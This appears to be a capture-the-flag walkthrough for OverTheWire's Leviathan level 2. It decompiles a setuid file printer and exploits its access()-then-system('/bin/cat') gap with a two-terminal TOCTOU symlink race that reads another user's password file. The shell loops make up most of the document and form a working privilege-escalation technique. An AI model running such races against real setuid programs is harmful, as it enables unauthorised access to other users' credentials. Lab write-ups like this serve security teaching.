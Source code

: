 We will start by listing the contents of the home directory.
```console
leviathan2@gibson:~$ ll
total 36
drwxr-xr-x  2 root       root        4096 Oct  5  2023 ./
drwxr-xr-x 83 root       root        4096 Oct  5  2023 ../
-rw-r--r--  1 root       root         220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root       root        3771 Jan  6  2022 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 15060 Oct  5  2023 printfile*
-rw-r--r--  1 root       root         807 Jan  6  2022 .profile
```
We can see an executable named `printfile`. Lets run it and see what happens.
```console
leviathan2@gibson:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
```
We need to give a file as argument. Since we know that all the passwords for leviathan are stored in `/etc/leviathan_pass` we should find the file called `leviathan3` and give it as an argument.
```console
leviathan2@gibson:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```
As it seems we cant have this file. 
So let's just make a copy of this executable on our local machine by converting it first to base64.
```console
leviathan2@gibson:~$ base64 printfile
```
Then paste the base64 characters on a file with `.base64` suffix and then decode it to binary with the name you want.
```console
User@Github:~$ nano printfile.base64
User@Github:~$ base64 -d printfile.base64 > printfile
```
Now that we have the executable we can use [DogBolt](https://dogbolt.org/) to decompile the program and see what we need to do.

```C
//----- (080491E6) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __uid_t v4; // ebx
  __uid_t v5; // eax
  const char **v6; // [esp+0h] [ebp-21Ch]
  char s[512]; // [esp+10h] [ebp-20Ch] BYREF
  unsigned int v8; // [esp+210h] [ebp-Ch]
  int *p_argc; // [esp+214h] [ebp-8h]

  p_argc = &argc;
  v6 = argv;
  v8 = __readgsdword(0x14u);
  if ( argc > 1 )
  {
    if ( access(argv[1], 4) )
    {
      puts("You cant have that file...");
      return 1;
    }
    else
    {
      snprintf(s, 0x1FFu, "/bin/cat %s", v6[1]);
      v4 = geteuid();
      v5 = geteuid();
      setreuid(v5, v4);
      system(s);
      return 0;
    }
  }
  else
  {
    puts("*** File Printer ***");
    printf("Usage: %s filename\n", *v6);
    return -1;
  }
}
```
This program prints the contents of a file specified by the user if the user has read access to it. If no file is specified, it prints usage instructions.
Lets navigate to the `/etc/leviathan_pass` path to see who can read the file `leviathan3`.
```console
leviathan2@gibson:/etc/leviathan_pass$ ll
total 48
drwxr-xr-x   2 root       root        4096 Oct  5  2023 ./
drwxr-xr-x 109 root       root       12288 Oct  5  2023 ../
-r--------   1 leviathan0 leviathan0    11 Oct  5  2023 leviathan0
-r--------   1 leviathan1 leviathan1    11 Oct  5  2023 leviathan1
-r--------   1 leviathan2 leviathan2    11 Oct  5  2023 leviathan2
-r--------   1 leviathan3 leviathan3    11 Oct  5  2023 leviathan3
-r--------   1 leviathan4 leviathan4    11 Oct  5  2023 leviathan4
-r--------   1 leviathan5 leviathan5    11 Oct  5  2023 leviathan5
-r--------   1 leviathan6 leviathan6    11 Oct  5  2023 leviathan6
-r--------   1 leviathan7 leviathan7    11 Oct  5  2023 leviathan7
```
It seems only `leviathan3` has the right to read it. 
But since we have a file that uses the `/bin/cat` command we can exploit it. 
We will perform an attack called [TOCTTOU] attack or Race Condition timing attack. 
In a TOCTTOU attack, an attacker exploits the timing and order of events to gain unauthorized access to a resource or execute unintended operations. These attacks take advantage of a time differential between when a resource is checked (for example, to see if it is available) and the time when it is used.
We need 2 terminals for this to work.
On the first terminal we will execute the `printfile` indefinetely and will filter any error messages and on the second terminal we will make a symbolic link to the real `leviathan3` in the temp directory we made, then remove it, then make a regular file named `leviathan3` and then remove the regular file.
Lets start by creating the temp directory and giving it read write permissions.
```console
leviathan2@gibson:~$ cd $(mktemp -d)
leviathan2@gibson:/tmp/tmp.uNKevxoo8G$ chmod 755 .
```
And now we run a while loop executing the `printfile`.
```console
while true; do /home/leviathan2/printfile $(pwd)/leviathan3 2>&1 | egrep -v "You cant have that file...|/bin/cat: /tmp/tmp.uNKevxoo8G/leviathan3: No such file or directory" ; done
```
Now to our second terminal: We navigate on the directory of the first terminal:
```console
leviathan2@gibson:~$ cd /tmp/tmp.uNKevxoo8G
```
And run a while loop that will make the symbolic link to the real `leviathan3` in the temp directory we made, then remove it, then make a regular file named `leviathan3` and then remove the regular file.
```console
leviathan2@gibson:/tmp/tmp.uNKevxoo8G$ while true; do ln -sf /etc/leviathan_pass/leviathan3 leviathan3; rm -f leviathan3
; touch leviathan3; rm leviathan3; done
```
And now the output of our first terminal should be:
```
*password*.....
*password*.....
*password*.....
*password*.....
```
Thats our password for the next level!
